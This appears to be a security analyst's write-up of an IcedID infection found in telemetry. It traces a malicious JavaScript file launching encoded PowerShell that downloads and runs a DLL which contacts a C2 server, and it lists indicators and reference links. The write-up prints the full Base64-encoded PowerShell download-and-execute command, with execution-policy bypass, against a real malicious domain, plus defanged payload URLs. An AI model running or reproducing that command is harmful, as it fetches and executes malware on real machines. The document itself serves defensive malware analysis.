 ## **Preamble**

While reviewing telemetry data I identified Base64-encoded strings during the execution of Powershell.

![[Untitled 541.png|Untitled 541.png]]

![[Untitled 1 7.png|Untitled 1 7.png]]

## **Analysis**

Upon execution of a malicious JavaScript associated with the IcedID infection, it calls the command interpreter to execute a base64 encoded Windows PowerShell. The PowerShell then communicates outbound to an IcedID redirect domain, followed by a download of a malicious [DLL](https://en.wikipedia.org/wiki/Dynamic-link_library) file. Next, the PowerShell executes the downloaded DLL using the Rundll process. And finally, the DLL is launches a Command and Control (C2) client that generates traffic with IcedID C2 server.

![[Untitled 2 7.png|Untitled 2 7.png]]

## **Loader phase**

While analyzing the Powershell command I decoded the Base-64 encoded strings.

```PowerShell
poWershell  -ep bypasS -enC SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZgBpAGQAZQBsAGUAbQBhAC4AdABvAHAALwBnAGEAdABlAGYAMQAuAHAAaABwACIAKQA=
```

![[Untitled 3 7.png|Untitled 3 7.png]]

This scripts retrieves a file from the URL `hxxp[://]fidelema[.]top/gatef1[.]php`

Searching for information about the URL I founded that it is a new one.  
  

![[Untitled 4 7.png|Untitled 4 7.png]]

![[Untitled 5 6.png|Untitled 5 6.png]]

![[Untitled 6 5.png|Untitled 6 5.png]]

  

==`(ObjectCMD)`== `poWershell -ep bypasS -enC SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZgBpAGQAZQBsAGUAbQBhAC4AdABvAHAALwBnAGEAdABlAGYAMQAuAHAAaABwACIAKQA=`

==`(parentCMD)`== `"C:\Windows\System32\WScript.exe" "C:\Users\ADMINISTRATIVO\Downloads\Doc.js”`

  

Looking through the detections I saw the dll file

![[Untitled 7 5.png|Untitled 7 5.png]]

`hxxp[://]fidelema[.]top/dll/27[.]dll`

![[Untitled 8 5.png|Untitled 8 5.png]]

Aditional proof

[https://tria.ge/230317-zvpcdaaa46](https://tria.ge/230317-zvpcdaaa46)

[https://blogs.opentext.com/dissecting-icedid-behavior-on-an-infected-endpoint/](https://blogs.opentext.com/dissecting-icedid-behavior-on-an-infected-endpoint/)

[https://github.com/pr0xylife/IcedID/blob/main/icedID_17.03.2023.txt](https://github.com/pr0xylife/IcedID/blob/main/icedID_17.03.2023.txt)

[https://urlhaus.abuse.ch/browse/tag/IcedID/](https://urlhaus.abuse.ch/browse/tag/IcedID/)
